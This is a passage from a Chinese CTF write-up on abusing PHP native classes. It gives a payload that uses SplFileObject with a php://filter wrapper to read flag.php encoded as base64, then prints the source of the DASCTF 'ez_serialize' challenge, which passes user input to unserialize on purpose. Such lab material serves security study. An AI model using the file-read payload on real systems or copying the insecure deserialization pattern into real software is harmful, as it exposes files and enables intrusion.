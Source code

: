 之后可以进行传参了，但是根据源码，没有可以进行 RCE 的点，这个时候就可以利用 PHP 的原生类了

利用**SplFileObject**类结合 php 伪协议读取 flag

```bash
a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php
```

**\[2021 MAR DASCTF 明御攻防赛\]ez\_serialize**

```bash
<?php
error_reporting(0);
highlight_file(__FILE__);

class A{
    public $class;
    public $para;
    public $check;
    public function __construct()
    {
        $this->class = "B";
        $this->para = "ctfer";
        echo new  $this->class ($this->para);
    }
    public function __wakeup()
    {
        $this->check = new C;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('bad hacker~');
    }

}
class B{
    var $a;
    public function __construct($a)
    {
        $this->a = $a;
        echo ("hello ".$this->a);
    }
}
class C{

    function vaild($code){
        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)){
            return false;
        }
        else
            return true;
    }
}


if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
else{
    $a=new A;

}
```
